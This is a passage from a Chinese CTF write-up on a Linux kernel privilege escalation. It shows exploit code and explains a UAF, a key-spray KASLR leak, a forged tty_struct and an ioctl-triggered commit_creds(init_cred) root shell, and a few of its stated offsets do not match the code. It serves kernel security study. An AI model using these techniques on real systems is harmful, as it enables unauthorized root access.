    tty_fd = open("/dev/ptmx", O_RDWR | O_NOCTTY);
    if (tty_fd < 0) {
        log.error("Failed to open /dev/ptmx");
        exit(-1);
    }
    log.success("Tty device opened successfully, fd: %d", tty_fd);

    ret = key_read(tty_struct_key_id, payload, 0xffff);
    if (ret < 0) {
        log.error("Failed to read tty struct data");
        exit(-1);
    }
    log.debug("Successfully read tty struct data, 0x%lx bytes read", ret);

    memcpy(&fake_tty[3], payload, TTY_STRUCT_SIZE - 0x18);
    fake_tty_addr = fake_tty[0x38 / 8] - 0x38;
    log.success("Fake tty struct address: 0x%lx", fake_tty_addr);

    /* Phase 6: Construct fake tty structure */
    log.info("Phase 6: Constructing fake tty structure");
    fake_tty[0] = 0x0000000100005401;  /* magic value */
    fake_tty[2] = fake_tty_addr;       /* ops pointer */
    fake_tty[3] = fake_tty_addr;       /* additional pointer */
    fake_tty[12] = kernel_offset + WORK_FOR_CPU_FN;  /* function pointer in ops table */
    fake_tty[4] = kernel_offset + COMMIT_CREDS;      /* privilege escalation function */
    fake_tty[5] = kernel_offset + INIT_CRED;         /* initial credentials */

    log.debug("Fake tty structure prepared with ROP chain");

    /* Phase 7: Trigger exploit to get root shell */
    log.info("Phase 7: Triggering exploit to get root shell");
    free_chunk(1);
    alloc_chunk(1, TTY_STRUCT_SIZE, fake_tty);

    ioctl(tty_fd, 0xdeadbeaf, 0xdeadbeaf);

    get_root_shell();

    log.success("Exploit completed successfully");

    /* Clean up resources */
    close(tty_fd);
    close(g_dev_fd);
    free(payload);

    return 0;
}
```

本章节将深入分析一种基于`tty_struct`内核结构的进阶利用方法。与之前利用管道子系统的方法相比，该方法针对终端设备子系统，通过类似的内存操作原理实现信息泄露与控制流引导。整个利用过程展示了在不同内核子系统间应用相同技术思想的灵活性，体现了内核利用技术的通用性和适应性。

### 6-1. 核心数据结构与环境准备

**tty_struct结构**是Linux内核中终端设备的核心数据结构，用于管理终端设备的输入输出操作。其大小为0x2b8字节，位于`kmalloc-1024`缓存中。该结构包含关键的`ops`指针，指向`tty_operations`函数表，这为控制流引导提供了可能。

**环境初始化**包括以下步骤：

1. **环境绑定**：将进程绑定到特定CPU核心，减少多核竞争条件
2. **资源分配**：分配0x4000字节缓冲区`payload`，用于存储数据和ROP链
3. **设备打开**：打开目标设备文件`/dev/rwctf`，获取设备文件描述符
4. **参数定义**：定义关键常量，包括堆喷射密钥数量`KEY_SPRAY_COUNT = 24`，`tty_struct`大小`TTY_STRUCT_SIZE = 0x2b8`，以及静态内核函数地址偏移

### 6-2. 内核基址泄露

此阶段目标与之前类似，通过构造UAF条件修改`user_key_payload`结构，利用`key_read`实现越界读取，获取内核函数指针并计算基址。操作流程如下图所示：



**详细操作解析**：

1. **UAF条件构造**：通过`alloc_chunk(0, 0x2b8, payload)`在`kmalloc-1024`缓存分配目标对象，立即调用`free_chunk(0)`释放，创建悬垂指针。此对象大小对应`tty_struct`结构，确保后续操作在同一缓存中进行。这一步骤为后续堆喷射创造了基础条件。

2. **堆喷射填充缓存**：通过`key_alloc`进行24次堆喷射，每次分配负载大小为0x2a0字节（0x2b8 - 0x18）。选择24次是基于`kmalloc-1024`缓存的特点，确保有效填充空闲链表。`key_alloc`的用户空间调用触发内核空间的`kvmalloc(plen, GFP_KERNEL)`，最终构造`user_key_payload`结构，填充缓存。

3. **二次释放构造悬垂引用**：再次调用`free_chunk(0)`释放同一指针。由于步骤2的堆喷射，此时该指针有高概率指向一个有效的`user_key_payload`结构，形成密钥子系统持有已释放内存引用的状态。这种"一处内存，两种状态"的冲突是后续操作的基础。

4. **修改元数据**：设置`payload[2] = 0x2000`，通过48次`alloc_chunk(0, 0x2b8, payload)`调用尝试重新获得目标内存并覆盖其内容。0x2000的选择确保了足够的越界读取空间，同时不会过大导致内存分配失败。这一步骤成功将某个`user_key_payload`的`datalen`字段修改为0x2000。

5. **检测与搜索**：遍历所有密钥，通过`key_read`调用识别返回数据大于0x2b8的"受害者密钥"。在读取的数据中搜索匹配`USER_FREE_PAYLOAD_RCU`特征的指针，利用页对齐特性（低12位相同）可靠识别目标函数指针。

6. **基址计算**：通过泄露的指针计算`kernel_offset = 泄露地址 - USER_FREE_PAYLOAD_RCU`，然后`kernel_base += kernel_offset`，得到精确内核镜像基址。这一信息是后续所有内核地址计算的基础，完全绕过KASLR保护。

### 6-3. tty_struct地址获取

获得内核基址后，此阶段目标是通过类似的内存布局操控获取`tty_struct`结构地址。由于此阶段涉及多个复杂操作，笔者将其分为两个子流程图展示：

#### 6-3-1. 内存布局准备与密钥操作



**详细操作解析**：

1. **内存布局准备**：分配两个0x2b8字节对象并依次释放，在`kmalloc-1024`缓存中制造空闲槽。这种布局增加了`tty_struct`结构分配到这些特定槽位的概率，为后续操作奠定基础。此步骤与阶段一的内存操作形成协同效应。

2. **密钥操作**：通过`key_alloc`分配一个密钥，使其有高概率占据步骤1释放的某个空闲槽。然后立即通过`del(1)`释放该密钥，进一步精确化内存布局。此操作利用了密钥子系统的分配特性来"标记"特定内存区域，为后续地址获取创造条件。

#### 6-3-2. 打开tty设备与地址读取

当用户空间调用`open("/dev/ptmx", O_RDWR | O_NOCTTY)`时，内核会执行以下复杂的打开流程，最终分配`tty_struct`结构。此流程与利用链紧密相关，因为它决定了`tty_struct`的内存分配位置：



**详细操作解析**：

3. **打开tty设备**：调用`open("/dev/ptmx", O_RDWR | O_NOCTTY)`打开伪终端主设备。此用户空间调用触发内核的完整打开流程：
    - **系统调用入口**：`__x64_sys_open`作为系统调用入口点
    - **文件打开核心逻辑**：`do_sys_open` → `do_filp_open` → `path_openat` → `do_last`，处理路径名查找和文件打开
    - **虚拟文件系统层**：`vfs_open`处理虚拟文件系统打开操作
    - **字符设备层**：`chrdev_open`处理字符设备特定操作
    - **tty设备层**：`tty_open` → `tty_init_dev`，初始化tty设备
    - **内存分配**：`alloc_tty_struct`最终调用`kzalloc(sizeof(struct tty_struct), GFP_KERNEL)`分配tty结构

    由于前序布局，该结构有高概率从预设的内存区域分配，使得`chunk[1].buf`可能指向新分配的`tty_struct`结构。

4. **读取tty结构数据**：通过之前分配的密钥读取内存，`key_read`调用在内核中触发`copy_to_user`操作，将内核数据拷贝到用户空间。从读取的数据中解析`tty_struct`结构地址。具体从`fake_tty[0x38]`处获取指针，减去偏移0x38得到结构基址。这一地址是后续构造伪造结构的关键。

### 6-4. 伪造tty结构与ROP链构造

获得`tty_struct`地址后，此阶段目标是构造伪造的tty结构体和ROP链。笔者将此阶段分为两个子流程图展示：

#### 6-4-1. 伪造tty结构体构造



**详细操作解析**：

1. **原始数据备份**：通过`memcpy(&fake_tty[3], payload, TTY_STRUCT_SIZE - 0x18)`将之前读取的原始tty结构数据备份到伪造结构中。这确保伪造结构保持原始结构的基本布局，避免内核在后续操作中检测到异常。

2. **伪造tty结构体构造**：
    - 设置magic值`0x0000000100005401`，确保结构体被内核识别为有效的tty结构
    - 设置`ops`指针指向伪造的tty_operations结构，这是控制流引导的关键
    - 设置附加指针，为后续操作提供必要的上下文信息

3. **函数指针设置**：
    - 在伪造的tty_operations结构中，设置特定函数指针为`WORK_FOR_CPU_FN`地址，这个函数将在ioctl调用时被触发
    - 设置权限变更函数指针：`COMMIT_CREDS`和`INIT_CRED`，这些函数构成ROP链的核心
    - 这些指针的设置基于之前计算的内核偏移，确保指向正确的内核函数

#### 6-4-2. 重新分配并写入伪造结构



**详细操作解析**：

4. **内存重分配**：调用`free_chunk(1)`释放当前内存，在内核中触发`kfree`释放操作。然后通过`alloc_chunk(1, 0x2b8, fake_tty)`重新分配相同大小的内存并写入伪造的tty结构。这使得之前分配的`tty_struct`被可控的数据覆盖，特别是修改了`tty_operations`函数指针。

**伪造tty_operations结构布局详解**：

```
偏移     内容                         作用
0x00     magic值 (0x0000000100005401)  验证tty结构有效性
0x10     ops指针 (指向fake_tty_addr)    控制流引导关键
0x18     附加指针 (指向fake_tty_addr)    提供上下文信息
0x30     COMMIT_CREDS函数地址          权限变更函数
0x28     INIT_CRED地址                初始凭证结构地址
0x60     WORK_FOR_CPU_FN函数地址       在ioctl时调用的跳板函数
```

#### 6-4-3. 与pipe利用方式对比

| 对比维度         | tty_struct利用                  | pipe_inode_info利用                          |
| ---------------- | ------------------------------- | -------------------------------------------- |
| **目标结构**     | `struct tty_struct` (0x2b8字节) | `struct pipe_inode_info` (0xa8字节)          |
| **缓存类型**     | kmalloc-1024                    | kmalloc-192                                  |
| **关键指针**     | `tty->ops` (指向tty_operations) | `pipe_buffer->ops` (指向pipe_buf_operations) |
| **触发函数**     | `tty->ops->ioctl()`             | `pipe_buffer->ops->release()`                |
| **伪造结构大小** | 0x2b8字节                       | 0xa8字节                                     |
| **跳板函数**     | WORK_FOR_CPU_FN                 | 栈翻转指令 (PUSH_RSI_POP_RSP_RET)            |
| **权限变更链**   | commit_creds(init_cred)         | commit_creds(prepare_kernel_cred(0))         |
| **触发方式**     | ioctl系统调用                   | close系统调用                                |

**ROP链构造差异分析**：

1. **触发点不同**：tty利用通过ioctl触发，而pipe利用通过close触发。这导致两者的执行上下文和寄存器状态不同。

2. **跳板选择**：tty利用使用`WORK_FOR_CPU_FN`作为跳板函数，而pipe利用使用栈翻转指令。这是因为tty的ioctl调用有特定的参数传递约定。

3. **参数传递**：在tty利用中，参数通过寄存器传递；在pipe利用中，参数通过ROP链构造在栈上。这反映了两种方法适应不同调用约定的策略。

4. **返回路径**：两种方法都精心构造了返回用户态的路径，确保执行流安全切换。但由于触发点不同，返回路径的具体实现有所差异。

### 6-5. 阶段四：触发执行流

完成所有准备后，触发预设的执行流。由于此阶段涉及内核复杂调用链，笔者将其分为两个子流程图展示：

**触发ioctl与内核调用链**

当用户空间调用`ioctl(tty_fd, 0xdeadbeaf, 0xdeadbeaf)`时，内核会执行完整的ioctl处理流程，最终调用`tty->ops->ioctl()`函数。此调用链是控制流引导的关键路径：



**详细操作解析**：

1. **触发ioctl调用**：调用`ioctl(tty_fd, 0xdeadbeaf, 0xdeadbeaf)`，传入特定命令和参数。这会触发内核的tty ioctl处理流程，从用户空间进入内核空间。

2. **内核tty_ioctl路径**：

    ```
    用户空间调用 ioctl
      ↓
    __x64_sys_ioctl (系统调用入口)
      ↓
    do_vfs_ioctl (虚拟文件系统ioctl分发)
      ↓
    tty_ioctl (tty设备特定ioctl处理)
      ↓
    tty->ops->ioctl(tty, cmd, arg)  // 调用tty_operations中的ioctl函数
    ```

    由于`tty->ops`指针已被修改为指向伪造的tty_operations结构，控制流将被引导至预设的函数地址。

3. **控制流引导**：
    - 内核调用`tty->ops->ioctl()`函数
    - 由于`ops`指针指向伪造的结构，ioctl函数指针指向`WORK_FOR_CPU_FN`
    - 控制流转至预设地址，开始执行ROP链
    - ROP链执行权限变更原语：`commit_creds(init_cred)`

4. **最终操作**：调用`get_root_shell()`函数，验证权限变更成功，弹出一个具有root权限的shell，完成整个利用流程。

### 6-6. 技术要点与对比分析

与管道利用方法相比，tty_struct利用方法体现了以下技术特点：

1. **不同的缓存大小**：`tty_struct`大小为0x2b8字节，位于`kmalloc-1024`缓存，而`pipe_inode_info`为0xa8字节，位于`kmalloc-192`缓存。这展示了技术在不同大小对象上的适用性，体现了内存操作技术的通用性。

2. **不同的触发机制**：管道方法通过`close()`触发`pipe_buffer->ops->release()`，而tty方法通过`ioctl()`触发`tty->ops->ioctl()`。两者都利用了对象操作函数表中的函数指针，但触发点和执行上下文不同，展示了技术在不同子系统接口上的应用。

3. **类似的内存布局原理**：两种方法都采用堆喷射、UAF构造、内存布局操控等核心技术，展示了技术原理在不同子系统间的通用性。这种一致性表明，尽管目标结构不同，但基本的内存操作原理是相通的。

4. **ROP链构造差异**：由于触发点和执行上下文不同，两种方法的ROP链构造有所差异。tty方法利用`WORK_FOR_CPU_FN`函数作为跳板，而管道方法直接劫持`release`函数指针。这反映了根据目标子系统特性调整技术实现的重要性。

5. **子系统特性利用**：两种方法都深入理解了目标子系统的内存分配和释放路径，能够精确预测和控制特定执行点的内存状态。对tty子系统分配和ioctl路径的深入理解，为成功构造特定的内存状态和执行流转移提供了关键基础。

**技术演进**：

- 从信息泄露到控制流引导的完整链条保持相同，体现了技术的一致性
- 针对不同子系统特性调整具体实现细节，体现了技术的灵活性
- 展示了技术在不同场景下的适应性和可扩展性

整个tty_struct利用过程再次证明了通过精心设计的操作序列，可以在现代内核防护机制下实现从信息获取到控制流引导的完整技术链。这种方法不仅适用于管道和tty子系统，理论上可应用于任何包含函数指针的内核数据结构，体现了内核利用技术的广泛适用性。

### 6-7. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 参考

https://github.com/BinRacer/pwn4kernel/tree/master/src/HeapSpraying
https://github.com/BinRacer/pwn4kernel/tree/master/src/HeapSpraying2
https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#例题：RWCTF2023体验赛-Digging-into-kernel-3
